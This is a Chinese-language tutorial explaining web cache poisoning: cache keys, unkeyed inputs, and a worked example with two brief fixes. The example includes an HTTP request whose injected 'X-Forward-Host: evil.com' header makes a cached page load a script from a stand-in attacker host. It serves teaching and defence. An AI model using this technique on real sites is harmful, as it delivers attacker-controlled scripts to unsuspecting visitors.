

- [Web cache poisoning](#web-cache-poisoning)
  - [原理](#原理)
    - [Web缓存原理](#web缓存原理)
    - [Cache Key](#cache-key)
    - [unkeyed](#unkeyed)
    - [cache poisoning](#cache-poisoning)
  - [修复方案](#修复方案)
  - [参考](#参考)
# Web cache poisoning
## 原理
### Web缓存原理
缓存服务器位于后端服务器和用户之间，它保存（缓存）对特定请求的响应，通常保存一段时间。如果另一个用户随后发送等效请求，则缓存服务器直接将缓存响应的副本直接提供给用户，而无需来自后端的任何交互。通过减少它必须处理的重复请求的数量，这极大地减轻了后端服务器的负载。  
  
而一般缓存服务器缓存的内容大多数是一些不需要变化的静态文件，如js文件等等。
如A请求www.test.com/a/a.js后，缓存服务器收到该请求时查看本地是否有该请求的缓存内容，没有的话则转发给后端服务器，然后得到该js文件的响应内容后根据缓存规则对该js的文件的响应内容进行缓存在本地缓存服务器上，当下一次B用户也请求www.test.com/a/a.js时，请求到达缓存服务器，缓存服务器查看本地有该请求的响应内容则缓存服务器直接将上一次缓存的js文件响应返回给B用户而无需再次请求后端服务器。
### Cache Key
而缓存服务器判断前后两个请求是否等效的方式则是通过请求包中的一些参数是否一致，比如请求的url和?后面的参数键值和Host值等等。
如
```http
/?a=1
Host: test.com
UA: chrome
```
```http
/?a=1
Host: test.com
UA: Firefox
```
如果缓存服务器是以查询字符串和Host值进行判断的话，那么这两个请求的响应则是等效的都将由缓存服务器返回相同的内容。
### unkeyed
unkeyed则是请求中不被用来判断是否为等效请求的参数，如上面两个请求的UA头。
### cache poisoning
而cache poisoning产生的原因则就是请求中的unkeyed参数会对响应内容造成变化，导致其缓存的响应内容包含了攻击者可控的内容,导致下一个用户请求时也会得到恶意的缓存内容。
例如后端服务器其实也支持X-Forward-For头，并且X-Forward-For得到的Host优先级要高于Host头。当正常请求
```http
/?a=1
Host: test.com
UA: chrome
```  
响应为
```html
...
<script src=http://test.com/a.js>
...
...
```
其引用的js文件host是从请求的Host中得到，但如果后端其实还支持X-Forward-For头时请求如下请求。
```http
/?a=1
Host: test.com
X-Forward-Host: evil.com
UA: chrome
``` 
则响应为  
```html
...
<script src=http://evil.com/a.js>
...
...
```
可以看到则会引用到恶意服务器上的js文件,而缓存服务器缓存时是根据Host和/?a=1进行缓存的,这就导致该恶意请求的响应缓存时则会将我们插入的`<script src=http://evil.com/a.js>`进行缓存,当下一个用户发送如下请求时
```http
/?a=1
Host: test.com
UA: chrome
```  
得到的响应内容则是我们缓存的恶意内容。
```html
...
<script src=http://evil.com/a.js>
...
...
```
## 修复方案
1. 完全禁用缓存(不现实)
2. 保证缓存的内容为真正的全静态内容，不是动态生成的响应。
## 参考
https://portswigger.net/web-security/web-cache-poisoning